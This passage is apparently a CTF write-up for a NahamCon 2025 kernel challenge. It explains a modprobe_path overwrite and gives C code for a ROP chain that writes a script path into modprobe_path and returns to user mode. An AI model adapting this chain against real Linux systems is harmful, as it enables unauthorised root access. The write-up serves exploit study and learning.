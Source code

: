To do the modprobing attack, i followed [this guide](https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ropes/) where it explain the basic stack kernel exploitation to escalate root.

First we need to find the `modprobe_path` address and the gadget for writing the `modprobe_path`. To find the `modprobe_path` address we can use `/proc/kallsyms` but i use the feature in gdb gef-kernel `kmagic` command.

![alt](/img/CTFTime/NahamCon_CTF_2025/KMagic.png)

For the gadget i use `ROPgadgets` and `grep` to filter out the gadget available. I chose `rax` and `rdi` because they feel the most convenient for me. It can be any register as long sastify the `mov qword ptr`.

![alt](/img/CTFTime/NahamCon_CTF_2025/Gadgets.png)

After preparing all the gadgets i notice that the kernel don't have `/tmp` directory and we can't create it. But we our `/home/user` directory where we can create file. So i decided to use `/home/user` directory for modprobing attack.

To do this modprobing attack we need to make `modprobe_path` value to our executable script location so for this example i will use `/home/user/w`. Since `mov qword ptr` only write 8 byte, we need to call it 2 times.

```c
pop_rdi_ret = KADDR(0xffffffff81001518);
pop_rax_ret = KADDR(0xffffffff8100dc1e);
write_rax_to_rdi = KADDR(0xffffffff8104ebe2);
modprobe_path = KADDR(0xffffffff82444620);

info("pop_rdi_ret", pop_rdi_ret);
info("pop_rax_ret", pop_rax_ret);
info("write_rax_to_rdi", write_rax_to_rdi);
info("modprobe_path", modprobe_path);

... //continue after payload

payload[canary_idx++] = pop_rax_ret;
payload[canary_idx++] = 0x73752f656d6f682f;
payload[canary_idx++] = pop_rdi_ret;
payload[canary_idx++] = modprobe_path;
payload[canary_idx++] = write_rax_to_rdi;
payload[canary_idx++] = pop_rax_ret;
payload[canary_idx++] = 0x772f7265;
payload[canary_idx++] = pop_rdi_ret;
payload[canary_idx++] = modprobe_path + 0x8;
payload[canary_idx++] = write_rax_to_rdi;
```

Don't forget after finish write `/home/user/w` to modprobe_path we need to return to user mode using `swapgs_restore_regs_and_return_to_usermode` and also `savestate` before running the payload.

```c
payload[canary_idx++] = swapgs_restore_regs_and_return_to_usermode + 22;
payload[canary_idx++] = 0; //pop from the return usermode
payload[canary_idx++] = 0; //pop from the return usermode
payload[canary_idx++] = 0x4141414141414141;
payload[canary_idx++] = user_cs;
payload[canary_idx++] = user_rflags;
payload[canary_idx++] = user_sp;
payload[canary_idx++] = user_ss;

dump_hex((char *)payload, 0xc0);
write(fd, (char *)payload, 0xc0);
```
